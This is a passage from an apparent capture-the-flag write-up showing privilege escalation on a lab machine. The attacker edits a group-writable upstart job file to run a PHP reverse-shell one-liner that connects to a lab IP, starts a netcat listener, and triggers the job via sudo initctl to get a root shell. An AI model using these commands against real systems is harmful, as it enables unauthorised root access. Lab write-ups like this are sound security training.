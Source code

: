 If you look carefully, you'll notice that the file is writable by the `developers` group, which katie is a part of. This will enable us to overwrite this configuration with our own malicious one 😈 Next I wanted to see the file structure. Check it with `cat /etc/init/test.conf`:

```bash
$ cat test.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

Neat, these are essentially weird-looking bash scripts. Inside of the `script` block we notice that there's an `exec` command that points to the node binary; putting two and two together, we figure out that if we run this job via `sudo`, the exec'd command will be executed as root. Now all that's left is to set up a reverse shell, edit `test.conf`, set up a listener, and trigger it. I created a file `/tmp/rev.php` with the following contents:

```php
<?php $sock=fsockopen("10.10.17.239",9001);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

Now that our reverse shell is set, we need to find the absolute path to the PHP executable. A `which php` shows us the binary lives at `/usr/local/bin/php` - good deal. Now we have what we need to change `test.conf` in order to execute code. Let's finish this out with the following steps:

* Add in the following line to `/etc/init/test.conf` :: `exec /usr/local/bin/php /tmp/rev.php`. It can go in between the lines `echo $$ > /var/run/nodetest.pid` and `exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js`.
* Set up a netcat listener in a new tmux pane :: `ncat -lvp 9001`
* Trigger the config change :: `sudo -u root /sbin/initctl start test`

If all goes according to [my evil plan to save the world](https://www.youtube.com/watch?v=Dyne7jtuKr8), you should have a pretty reverse shell as root sitting in your netcat pane!

![Borat giving somebody a high five.](/assets/images/spectra/high_five.gif)